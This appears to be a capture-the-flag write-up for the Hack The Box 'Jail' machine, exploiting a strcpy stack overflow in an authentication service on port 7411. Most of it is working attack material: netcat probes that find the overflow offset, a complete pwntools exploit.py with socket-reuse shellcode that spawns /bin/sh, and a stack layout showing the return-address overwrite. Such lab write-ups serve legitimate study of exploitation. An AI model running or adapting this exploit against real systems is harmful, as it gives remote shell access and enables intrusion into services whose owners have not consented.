


# 15 - Buffer Over Flow

# strcpy binary overflow
```c
int auth(char *username, char *password) {
    char userpass[16];
    printf("Debug: userpass buffer @ %p\n", userpass);
    strcpy(userpass, password);
}

int handle(int sock) {
    char password[256];
```
Userpass 16 byte and password is 256 byte


Since we don't know the version of gcc or the compiler that compiled the binary it's better to download and check the executable ourselves rather than relying on compile.sh
checksec is a wonderful tool that comes with pwntools



# Expected result if password is wrong
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail/dev]
└──╼ $ python2  -c "print 'DEBUG on\nUSER admin\nPASS ' + 'A' *14" | nc 10.10.10.34 7411
OK Ready. Send USER command.
OK DEBUG mode on.
OK Send PASS command.
Debug: userpass buffer @ 0xffffd610
Incorrect username and/or password.
ERR Authentication failed.
```

# The last ERR line is missing potentially a segmentation fault with high password size
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail/dev]
└──╼ $ python2  -c "print 'DEBUG on\nUSER admin\nPASS ' + 'A' *256" | nc 10.10.10.34 7411
OK Ready. Send USER command.
OK DEBUG mode on.
OK Send PASS command.
Debug: userpass buffer @ 0xffffd610
```


# Offset 28
```sql
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail/dev]
└──╼ $ python2  -c "print 'DEBUG on\nUSER admin\nPASS ' + 'A' *27" | nc 10.10.10.34 7411
```
Python adds a new line but it is cut out by strtok function and replaced by a null byte so our payload looks more like 

'A' *27 + '\x00'


```
  STROK(3)
Each  call  to  strtok() returns a pointer to a null-terminated string containing the next token.
This string does not include the delimiting byte. # (0x0a) will be replaced by 0x00
```

# exploit.py
```py
#!/usr/bin/env python
from pwn  import * 

####  payload
buffer_ = b'A'* 28
address= p32(0xffffd610+32)
# https://www.exploit-db.com/exploits/34060
shellcode = b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
shellcode += b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
shellcode += b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
shellcode += b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
shellcode += b"\x89\xe3\x31\xc9\xcd\x80";


#### defaults
ip = "10.10.10.34"
port = 7411
debug = b"DEBUG on\n"
user_ = b"USER admin\n"
pass_ = b"PASS " + buffer_ +address + shellcode
####

payload = debug + user_ + pass_

if __name__ == '__main__':
        s = remote(ip,port)
        s.send(payload)
        s.interactive()
```

Realize we can't use a reverse shell because our ip includes 10 which is 0x0a or \n new line character. strtok function won't let us use hex 0x0a. We can use socket reuse which will basically execve('/bin/sh') but will remember the socket.

Address + 28 + 4 because we want to return to the stack

|    Stack    |    ADDRESS    |
| ----------- | ------------- |
| buffer      | 0xffffd610    |
| ret address | 0xffffd610+28 |
| shellcode   |               |


